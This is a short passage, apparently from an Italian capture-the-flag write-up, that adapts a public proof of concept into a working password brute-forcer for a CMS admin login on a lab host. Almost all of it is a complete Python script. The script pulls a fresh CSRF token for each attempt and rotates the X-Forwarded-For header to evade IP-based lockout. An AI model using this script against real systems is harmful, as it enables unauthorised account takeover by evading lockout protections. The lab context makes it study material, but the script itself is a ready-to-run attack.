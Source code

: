 ```python

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```

Vediamo che la PoC è fatta in modo da dimostrare il concetto, non impostato per l'exploit.
bisogna modificarlo.

```python
#!/usr/bin/env python3
import re
import requests
import sys

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'

with open(sys.argv[1], 'r') as f:
    wordlist = [x.strip() for x in f.readlines()]

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print(f'\r[*] Trying: {password:<90}'.format(p = password), end="", flush=True)

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print('\rSUCCESS: Password found!' + 50*" ")
            print(f'Use {username}:{password} to login.')
            print()
            break

```

